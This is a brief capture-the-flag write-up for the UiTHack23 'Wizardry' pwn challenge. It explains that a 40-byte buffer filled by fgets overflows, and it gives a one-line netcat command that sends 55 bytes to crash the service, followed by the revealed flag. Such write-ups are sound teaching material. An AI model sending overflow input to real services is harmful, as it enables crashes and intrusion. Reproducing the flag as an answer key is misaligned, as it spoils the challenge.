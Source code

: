 > # Pwn - Wizardry
> > Pwn - 50pts
>
> Gryffindor has gotten their flag stolen by another house. Rumour has it that it is hidden behind this spell. <br>
> Break the spell to get the flag!
>
> Here is the [spell](src/spell).
>
> Connect with netcat
> ```command
> $ nc motherload.td.org.uit.no 6200
> ```

## Writeup
The signal handler calls the _print\_flag_ function when a segmentation fault occurs, so we will get the flag by breaking the program with a segmentation fault.

The program reads in 100 bytes with _fgets_, but the buffer it reads in to is only 40 bytes in size, making us able to overflow the buffer to crash the program (with a segmentation fault).

You get the flag by writing **more** than 54 bytes to the program.
```command
$ python3 -c "print('a'*55)" | nc motherload.td.org.uit.no 6200
Give me some input:
>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
UiTHack23{W1ng4rd1um_l3vi0s4aa4}
```
